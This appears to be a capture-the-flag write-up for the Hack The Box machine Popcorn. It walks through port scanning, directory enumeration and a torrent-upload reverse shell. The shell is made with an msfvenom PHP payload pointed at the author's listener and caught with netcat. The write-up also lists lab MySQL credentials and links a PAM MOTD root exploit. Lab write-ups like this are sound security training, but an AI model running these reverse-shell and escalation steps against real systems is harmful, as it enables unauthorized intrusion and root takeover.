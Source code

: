 # Popcorn (`10.10.10.6`)

## Summary

TorrentHoster reverse shell + MOTD exploit to get `root`.

## Enumeration

I start a portscan of all ports (`-p-`), running OS, service version, and vulnerability scripts (`-A`), skipping host discovery (`-Pn`), with verbose logging (`-v`) and output to a file (`-oN`).

```bash
$ nmap -A -v -p- -Pn -oN allports popcorn.htb
# Nmap 7.80 scan initiated Mon Nov  9 21:19:51 2020 as: nmap -A -v -p- -Pn -oA allports popcorn.htb
Nmap scan report for popcorn.htb (10.10.10.6)
Host is up (0.059s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

### Port 80

`$ gobuster dir -u http://popcorn.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -s 200,204,301,302,307,403,500 -e -k -o tcp_80_http_gobuster.txt -t 15`

![](img/2020-11-09-22-56-14.png)

![](img/2020-11-09-22-23-08.png)

![](img/2020-11-09-22-23-24.png)

I create an account with the credentials `a:a`.

![](img/2020-11-09-22-29-28.png)

## Reverse Shell

I followed [this tutorial](https://www.youtube.com/watch?v=7r-gf_LoTuQ) to get a shell, with the only differences in my process being the following:

Make reverse shell with `msfvenom`, using the following command: `$ msfvenom -p php/reverse_php LHOST=10.10.14.27 LPORT=443 -e php/base64 -f raw -o knx.php`

And catch the reverse shell with `$ nc -lvnp 443`.

## Upgrading Shell

Set up more stable (top) reverse shell from initial (bottom) shell.

![](img/2020-11-09-22-53-21.png)

## User Proof

![](img/2020-11-09-22-57-42.png)

## Privilege Escalation

In `/var/www/torrent/config.php`, I find:

![](img/2020-11-10-23-41-33.png)

The `mysql` credentials seem to be: `torrent:SuperSecret!!`

I use this to log into `mysql`.

![](img/2020-11-10-23-53-19.png)

![](img/2020-11-10-23-54-05.png)

![](img/2020-11-10-23-54-14.png)

The admin password hash is: `d5bfedcee289e5e05b86daad8ee3e2e2`. (This turned out to be a rabbit hole).

I COULD just throw a kernel exploit at it, but that's boring.

![](img/2020-11-10-23-59-01.png)

![](img/2020-11-11-02-05-03.png)

![](img/2020-11-11-02-17-49.png)

I searched for an MOTD exploit relating to PAM, and found this: https://www.exploit-db.com/exploits/14339.

Worked like a charm.

## Proof

![](img/2020-11-11-02-15-31.png)